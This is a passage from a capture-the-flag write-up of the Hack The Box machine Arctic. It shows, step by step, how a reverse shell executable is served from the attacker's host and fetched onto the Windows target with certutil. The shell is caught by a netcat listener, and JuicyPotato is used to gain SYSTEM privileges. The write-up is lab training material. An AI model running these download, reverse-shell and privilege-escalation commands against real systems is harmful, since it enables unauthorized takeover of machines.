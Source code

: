 - **Transfer the reverse shell:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:57:39(HKT)]
└> python3 -m http.server 80   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
C:\ColdFusion8\runtime\bin>certutil -urlcache -split -f http://10.10.14.8/revshell_stageless_system.exe C:\Users\tolis\Desktop\revshell_stageless_system.exe
[...]
CertUtil: -URLCache command completed successfully.
```

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:00:26(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
```

- **Test the reverse shell:**

```shell
C:\ColdFusion8\runtime\bin>C:\Users\tolis\Desktop\revshell_stageless_system.exe
C:\ColdFusion8\runtime\bin>
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:00:26(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49492
[...]
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

It worked!

- **Setup the netcat listener again and run the exploit with the reverse shell executable as the argument:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:01:36(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
```

```shell
C:\ColdFusion8\runtime\bin>C:\Users\tolis\Desktop\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c C:\Users\tolis\Desktop\revshell_stageless_system.exe"
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
